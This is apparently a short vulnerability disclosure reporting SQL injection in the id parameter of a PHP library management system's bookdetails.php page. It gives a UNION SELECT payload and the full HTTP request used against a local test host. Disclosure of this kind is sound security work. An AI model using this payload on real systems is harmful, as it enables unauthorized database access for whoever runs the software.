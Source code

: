 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/student/bookdetails.php?id=

Vulnerability location: /LMS/student/bookdetails.php?id=, id

[+] Payload: /LMS/student/bookdetails.php?id=-191%27%20union%20select%201,2,3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /LMS/student/bookdetails.php?id=-191%27%20union%20select%201,2,3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180441373-6a534492-0498-4813-93cd-1c467f6e0ca6.png)
